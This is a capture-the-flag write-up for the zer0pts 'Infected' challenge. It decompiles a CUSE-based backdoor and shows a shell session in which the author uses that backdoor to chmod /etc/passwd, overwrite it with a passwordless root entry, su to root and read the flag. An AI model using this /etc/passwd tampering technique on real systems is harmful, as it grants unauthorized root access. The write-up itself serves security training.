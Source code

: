 # Infected

The backdoor is installed on this machine:

`nc others.ctf.zer0pts.com 11011`

How can I use it to get the flag in `/root` directory?

Attachments:
* [backdoor](./backdoor)

## Solution
- ELF 64-bit LSB pie executable, opened in IDA.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return register_backdoor((unsigned int)argc, argv);
}
```
`register_backdoor` Function
```c
__int64 __fastcall register_backdoor(unsigned int a1, __int64 a2)
{
  v7[0] = (__int64)"DEVNAME=backdoor";
  memset(s, 0, 0x20uLL);
  v4 = 1;
  v5 = v7;
  v6 = 1;
  return cuse_lowlevel_main(a1, a2, s, &devops, 0LL);
}
```
- The program uses `FUSE` to create a character device name `backdoor`. The struct `devops` passed has pointer to open (`backdoor_open`) and write (`backdoor_write`) functions.

Write function `backdoor_write`
```c
unsigned __int64 __fastcall backdoor_write(__int64 a1, const char *a2, size_t a3)
{
  s = strndup(a2, a3);
  if ( s )
  {
    s1 = strtok(s, ":");
    file = strtok(0LL, ":");
    nptr = strtok(0LL, ":");
    if ( s1 && file && nptr && !strncmp(s1, "b4ckd00r", 8uLL) )
    {
      stat64(file, &v10);
      if ( (v10.st_mode & 0xF000) != 0x8000 || (v3 = atoi(nptr), chmod(file, v3)) )
        fuse_reply_err(a1, 22LL);
      else
        fuse_reply_write(a1, a3);
    }
    else
    {
      fuse_reply_err(a1, 22LL);
    }
    free(s);
  }
  else
  {
    fuse_reply_err(a1, 22LL);
  }
  return __readfsqword(0x28u) ^ v11;
}
```
This function 1st splits the input into 3 parts with `:` , then:
- Checks if 1st part is `b4ckd00r`
- Then checks the 2nd part is a file and the file must be a regular file (using stat64)
- Then it changes the permissions of the file (using chmod)

**Solution**

We are given connection to a busybox shell, and we can't do sudo as we aren't in the passwd file. So, changed the permissions of `/etc/passwd` file to rwx (777 in octal == 511 in decimal), changed the password of root to null.

```
Opening connection to others.ctf.zer0pts.com on port 11011: Done
[*] Data sha256("????U86hWW.VnLdYpMpr.Ovl") = df2586d94b5a0a315366ca06ce4b3398e7b2d88e0cc45ffa220ca1855ff031e2
[*] Suffix = U86hWW.VnLdYpMpr.Ovl Hash: df2586d94b5a0a315366ca06ce4b3398e7b2d88e0cc45ffa220ca1855ff031e2
[*] Prefix = 43xb
[*] Got Shell
[*] Switching to interactive mode
[+] Correct
/ $ echo b4ckd00r:/etc/passwd:511 > /dev/backdoor
echo b4ckd00r:/etc/passwd:511 > /dev/backdoor
/ $ echo root::0:0:root:/root:/bin/sh > /etc/passwd
echo root::0:0:root:/root:/bin/sh > /etc/passwd
/ $ cat /etc/passwd
cat /etc/passwd
root::0:0:root:/root:/bin/sh
/ $ su
su
/ # cat /root/flag*
$ 
cat /root/flag*
zer0pts{exCUSE_m3_bu7_d0_u_m1nd_0p3n1ng_7h3_b4ckd00r?}
/ #
[*] Interrupted
```

## Flag
> zer0pts{exCUSE_m3_bu7_d0_u_m1nd_0p3n1ng_7h3_b4ckd00r?}